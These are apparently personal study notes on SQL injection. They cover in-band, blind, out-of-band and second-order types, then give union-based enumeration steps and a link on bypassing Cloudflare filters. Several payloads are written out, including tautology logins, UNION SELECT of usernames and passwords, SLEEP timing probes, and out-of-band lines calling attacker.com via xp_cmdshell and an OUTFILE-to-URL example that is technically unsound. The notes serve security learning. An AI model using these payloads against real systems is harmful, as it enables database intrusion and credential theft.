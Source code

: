 #  SQL Injection Types and Explanation

SQL Injection (SQLi) is a vulnerability that allows attackers to manipulate a web application's query to the database. It occurs when user input is improperly sanitized, allowing the attacker to inject malicious SQL code. There are several types of SQL injection techniques:

## Types of SQL Injection:

### 1. In-band SQL Injection:

- **Definition:** In-band SQL injection is the most common type of SQLi where the attacker uses the same communication channel to inject and retrieve data from the database.

- **Techniques:**

  - **Error-based SQLi:** The attacker injects malicious SQL code and relies on database error messages to reveal information about the structure of the database. These errors can leak valuable data.

    - **Example:**

      ` ' OR 1=1; -- `

      Injecting this into a vulnerable query like:

        SELECT * FROM users WHERE username = '' OR 1=1 -- ' AND password = '';

      This will return all records in the `users` table.

  - **Union-based SQLi:** The attacker uses the `UNION` operator to combine the results of the original query with the results of an injected query, allowing them to retrieve additional data.

    - **Example:**

      ` ' UNION SELECT username, password FROM users; -- `

      If injected into a vulnerable query like:

        SELECT id, name FROM products WHERE id = [input];

      The attacker can retrieve data from the `users` table instead of the `products` table.

  

### 2. Blind SQL Injection:

- **Definition:** In blind SQL injection, the attacker cannot directly see the result of the query but can infer it based on the application's behavior (e.g., if the page loads or an error occurs).

- **Techniques:**

  - **Boolean-based blind SQLi:** The attacker injects SQL statements that evaluate to true or false and observes how the website responds. Based on the response, the attacker can deduce information.

    - **Example:**

      ` ' AND 1=1; -- (True condition)`  

      ` ' AND 1=2; -- (False condition)`  

      By observing if the query returns data (or the page behaves differently), the attacker can infer whether the condition is true or false.

  - **Time-based blind SQLi:** The attacker uses SQL functions like `SLEEP()` or `BENCHMARK()` to delay the response from the database. If a delay occurs, the attacker knows the query executed successfully.

    - **Example:**

      ` ' OR IF(1=1, SLEEP(5), 0); -- `

      If the page takes longer to load, the attacker can confirm that the condition is true.

  

### 3. Out-of-Band SQL Injection:

- **Definition:** Out-of-band SQL injection occurs when the attacker cannot use the same communication channel to inject and retrieve data. Instead, they use a separate channel (like HTTP requests or DNS queries) to receive the results of the query.

- **Example:**

  - Using SQL functions like `LOAD_FILE()` or `xp_dirtree` to send data to a remote server controlled by the attacker.

  - **Example:**

    ` ' UNION SELECT LOAD_FILE('/etc/passwd') INTO OUTFILE 'http://attacker.com/log.txt'; -- `

    In this case, the result of the query is sent to an external server, providing the attacker with sensitive information without directly showing it on the vulnerable website.
## classification
- **First-Order SQL Injection:**
    
    - **Definition:** In a first-order SQL injection attack, the malicious payload is directly inserted into the application's database query.
    - **Execution:** The attacker typically injects SQL code through user inputs, such as form fields or URL parameters. When the application processes these inputs without proper validation or sanitization, the injected SQL code gets executed by the database.
    - **Example:** If a web form accepts user input for a username and constructs a SQL query like `SELECT * FROM users WHERE username = '<user_input>';`, an attacker could input `' OR 1=1 --` to manipulate the query to return all records from the `users` table.
- **Second-Order SQL Injection:**
    
    - **Definition:** Second-order SQL injection involves injecting malicious payloads that are stored within the application's database, rather than being directly inserted into a query.
    - **Execution:** The injected data is stored in the database first and then later retrieved and used in a query. When the application retrieves and uses this data in a query without proper validation or sanitization, it inadvertently executes the injected SQL code.
    - **Example:** An attacker might submit malicious input that gets stored in the database (e.g., during registration or profile updates). Later, when another user or administrator views that data, the application constructs a query using the stored, but now malicious, input.

## In-Band SQL Injection vs. Out-of-Band SQL Injection:

  

- **In-band SQL Injection:**

  - **Same channel for attack and data retrieval.**

  - Easier to execute since the attacker directly sees the results (error messages, database response).

  - Examples include **Error-based** and **Union-based** SQLi.

  

- **Out-of-band SQL Injection:**

  - **Different channel for attack and data retrieval.**

  - Often used when the application does not return results or give direct feedback.

  - Relies on methods like sending results to external servers using DNS queries, HTTP requests, etc.

  

### In-Band Example:

  

    SELECT * FROM users WHERE username = 'admin' AND password = 'admin' OR '1'='1';

The query becomes:

    SELECT * FROM users WHERE username = 'admin' AND password = 'admin' OR '1'='1';

The injected part `'1'='1'` always evaluates to `TRUE`, which returns all rows in the table.

  

### Out-of-Band Example:

  

    '; EXEC xp_cmdshell('nslookup attacker.com'); --

Here, the attacker is using SQL Server’s `xp_cmdshell` to execute a system command (like `nslookup`) that sends a DNS query to an external server (`attacker.com`). This allows the attacker to confirm the vulnerability without getting direct feedback from the web application.



# strategies 

## triggering an error  
try to just adding





































































# SQL syntax 
-` select * where  from table where user ='joe' limit 0,1  ;   --` limit is here to limit the numbers of the output 
- ![[Pasted image 20240728121425.png]]
- ![[Pasted image 20240728122041.png]]

## injection 
- union cannot work if  the query calls  different numbers of columns 
- so we check for the number of columns in the query by `order by ***`
- if the number you gave  is work increase until it didn't work so the last number worked is the correct number  
- and then u need to know what number is interpreted in the page 
- by using `jeremy 'union select 1,2,3 #`
- after checking for numbers of calls  then you should use this 
- ` jeremy 'union select 1,2,table_name from information_schema.tables where table_schema =database() ; #`
- you use a valid syntax and then u inject the payload 
- portswigger sql cheat sheet 
- you can use this query to retrieve two columns in one parameter 
- `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`

	==try to search for any thing injectable like cookies validation or any thing 

https://medium.com/@amitdutta6026/bypassing-cloudflares-sql-injection-filter-without-origin-ip-discovery-2bb8c97bc5db